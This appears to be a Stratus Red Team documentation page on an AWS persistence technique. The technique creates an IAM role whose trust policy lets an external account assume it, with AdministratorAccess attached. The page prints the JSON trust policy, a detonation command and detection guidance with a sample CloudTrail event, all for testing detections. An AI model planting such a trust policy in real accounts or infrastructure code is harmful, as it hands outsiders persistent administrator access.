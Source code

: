 ```yaml
---
title: Create a backdoored IAM Role
---
```


# Create a backdoored IAM Role




Platform: AWS

## MITRE ATT&CK Tactics


- Persistence

## Description


Establishes persistence by creating a new backdoor role with a trust policy allowing it to be assumed from 
an external, fictitious attack AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: None.

<span style="font-variant: small-caps;">Detonation</span>: 

- Create a new IAM role with the following trust policy:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com"
      },
      "Action": "sts:AssumeRole"
    },
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

- Attach the 'AdministratorAccess' managed IAM policy to it. 

References:

- https://www.invictus-ir.com/news/the-curious-case-of-dangerdev-protonmail-me


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.iam-create-backdoor-role
```
## Detection


- Through [IAM Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-iam-role), 
which generates a finding when a role can be assumed from a new AWS account or publicly.

- Identify a call to <code>CreateRole</code> closely followed by <code>AttachRolePolicy</code> with an administrator policy.

- Identify a call to <code>CreateRole</code> that contains an assumeRolePolicyDocument in the requestParameters that allows access from an external AWS account. Sample event:

```
{
  "eventSource": "iam.amazonaws.com",
  "eventName": "CreateRole",
  "requestParameters": {
	"roleName": "malicious-iam-role",
	"assumeRolePolicyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"Service\": \"ec2.amazonaws.com\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    },\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}"
   }
}
```


